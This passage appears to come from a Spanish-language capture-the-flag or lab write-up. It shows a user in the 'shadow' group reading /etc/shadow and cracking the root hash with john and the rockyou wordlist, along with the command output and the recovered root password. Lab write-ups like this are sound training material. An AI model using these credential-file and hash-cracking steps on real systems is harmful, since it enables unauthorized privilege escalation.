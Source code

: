 Estamos en un grupo llamado **shadow** y podemos ver el **/etc/shadow** con cat. Intentamos crackearla con john :

```bash
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt root.txt               

Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rainbow2         (?)     
1g 0:00:00:16 DONE (2025-02-06 16:39) 0.05917g/s 761.1p/s 761.1c/s 761.1C/s rainbow2..wendel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

**Usuario -> root**
**Contra -> rainbow2**

**YA ESTAMOS COMO ROOT**